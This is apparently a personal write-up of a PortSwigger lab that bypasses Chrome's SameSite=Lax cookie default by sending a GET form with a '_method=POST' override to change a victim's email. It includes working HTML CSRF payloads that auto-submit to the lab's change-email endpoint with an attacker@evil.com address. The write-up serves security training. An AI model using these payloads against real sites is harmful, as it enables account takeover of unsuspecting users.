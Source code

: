 # SameSite Lax bypass via method override

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions/lab-samesite-lax-bypass-via-method-override), you'll learn: SameSite Lax bypass via method override! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a [CSRF attack](https://portswigger.net/web-security/csrf) that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

> Note:
> The default [SameSite](https://portswigger.net/web-security/csrf/bypassing-samesite-restrictions) restrictions differ between browsers. As the victim uses Chrome, we recommend also using Chrome (or Burp's built-in Chromium browser) to test your exploit.

## Exploitation

**Login as user `wiener`:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171113.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171131.png)

**Burp Suite HTTP history:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171238.png)

**When we successfully logged in, it'll set a new session cookie for us:**
```
Set-Cookie: session=rIvG2u8btj2TaB0q6tdZptKTItB5d0is; Expires=Sat, 14 Jan 2023 09:11:15 UTC; Secure; HttpOnly
```

However, **it doesn't have a `SameSite` attribute.**

In the lab's background, it said:

> ... The victim uses Chrome.

In Chrome, **it'll automatically apply `Lax` restrictions by default**. This means that the cookie is only sent in cross-site requests that meet specific criteria, even though the developers never configured this behavior.

**Also, let's view the source page in `/my-account`:**
```html
<h1>My Account</h1>
<div id=account-content>
    <p>Your username is: wiener</p>
    <p>Your email is: wiener@normal-user.net</p>
    <form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
        <label>Email</label>
        <input required type="email" name="email" value="">
        <button class='button' type='submit'> Update email </button>
    </form>
</div>
```

As you can see, **the form doesn't include a CSRF token**, which helps to prevent CSRF (Cross-Site Request Forgery) attack.

Now, we can try to update our email address:

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171659.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113171714.png)

When we clicked the "Update email" button, **it'll send a POST request to `/my-account/change-email`, with parameter `email`.**

In order to perform CSRF attack, we need dig deeper about `Lax` SameSite restriction.

- `Lax` SameSite restriction:

**Browsers will send the cookie in cross-site requests, but only if both of the following conditions are met:**

1. The request uses the GET method.
2. The request resulted from a top-level navigation by the user, such as clicking on a link.

This means that the cookie is not included in cross-site POST requests, for example. As POST requests are generally used to perform actions that modify data or state (at least according to best practice), they are much more likely to be the target of CSRF attacks.

Likewise, the cookie is not included in background requests, such as those initiated by scripts, iframes, or references to images and other resources.

**Armed with above information, we can craft our CSRF payload:**
```html
<html>
    <head>
        <title>CSRF-7</title>
    </head>
    <body>
        <script type="text/javascript">
            document.location = 'https://0a9e00e10408d338c1928be6001f00ff.web-security-academy.net/my-account/change-email?email=attacker@evil.com';
        </script>
    </body>
</html>
```

This HTML payload will redirect to `/my-account/change-email` upon visit, which the browser will send a GET request to that endpoint, with parameter `email`. This could happen because servers aren't always fussy about whether they receive a GET or POST request to a given endpoint, even those that are expecting a form submission.

**Then, go to the exploit server to host the payload, and test it:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113172742.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113172752.png)

Hmm... `"Method Not Allowed"`.

Now, even if an ordinary GET request isn't allowed, **some frameworks provide ways of overriding the method specified in the request line**. For example, Symfony supports the `_method` parameter in forms, which takes precedence over the normal method for routing purposes:

```html
<html>
    <head>
        <title>CSRF-7</title>
    </head>
    <body>
        <form action="https://0a9e00e10408d338c1928be6001f00ff.web-security-academy.net/my-account/change-email" method="GET">
            <input type="hidden" name="_method" value="POST">
            <input type="hidden" name="email" value="attacker@evil.com">
        </form>
        <script>
            document.getElementsByTagName('form')[0].submit();
        </script>
    </body>
</html>
```

This will the form will still send a GET request to `/my-account/change-email`, however the `_method` parameter will override the method to POST request.

> Note: The JavaScript is to automatically submit the form.

**Let's host the payload and test it again:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173725.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173735.png)

It worked!

**Let's send the payload to victim:**

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173759.png)

![](https://github.com/siunam321/CTF-Writeups/blob/main/Portswigger-Labs/CSRF/CSRF-7/images/Pasted%20image%2020230113173805.png)

Nice!

# What we've learned:

1. SameSite Lax bypass via method override